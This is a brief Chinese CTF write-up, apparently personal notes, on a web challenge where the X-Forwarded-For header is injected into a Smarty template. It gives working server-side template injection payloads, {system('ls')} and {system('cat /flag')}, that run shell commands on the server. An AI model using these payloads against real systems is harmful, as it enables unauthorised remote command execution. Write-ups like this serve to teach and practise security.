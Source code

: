 ![[Pasted image 20221113151242.png]]

首页长这样

![[Pasted image 20221113151312.png]]

首页有一串js

![[Pasted image 20221113151850.png]]

好家伙，炫酷的打字效果往往只需要最朴素的编写方式，学到了（然而好像和题目没啥关系）

```php
/flag.php
```
![[Pasted image 20221113165329.png]]

很奇怪，这好像是个内网ip，应该是过了代理

猜测可修改`X-Forwarded-For`来控制回显

![[Pasted image 20221113165737.png]]

先瞎打一波看看有没有报错
```http
X-Forwarded-For: '{\%*asfo
```

![[Pasted image 20221113170317.png]]

通过报错确定服务端使用`Smarty`作为模板引擎

![[Pasted image 20221113170349.png]]

`Smarty`语法好像是基于`php`，尝试使用`php`的`system`函数
```http
X-Forwarded-For: {system('ls')}
```
![[Pasted image 20221113170907.png]]
```http
X-Forwarded-For: {system('cat /flag')}
```
![[Pasted image 20221113171153.png]]

#Web #PHP #SSTI #smarty